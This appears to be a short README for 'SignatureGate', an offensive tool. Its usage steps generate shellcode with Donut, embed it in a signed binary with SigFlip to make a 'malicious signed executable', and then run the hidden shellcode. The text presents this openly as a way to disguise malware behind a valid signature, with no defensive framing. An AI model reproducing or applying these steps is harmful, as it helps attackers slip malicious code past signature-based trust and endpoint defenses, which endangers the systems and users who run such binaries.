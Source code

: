 # SignatureGate

## Usage

Generate shellcode for .NET assembly with Donut.

Generate malicious signed executalbe with:


```
.\SigFlip.exe -i path_to_signed_binary -s path_to_malicious_shellcode -o path_to_output_file -e encryption_key
```

Run the malicious shellcode from the executable with

```
.\SignatureGate.exe path_to_malicious_file encryption_key
```
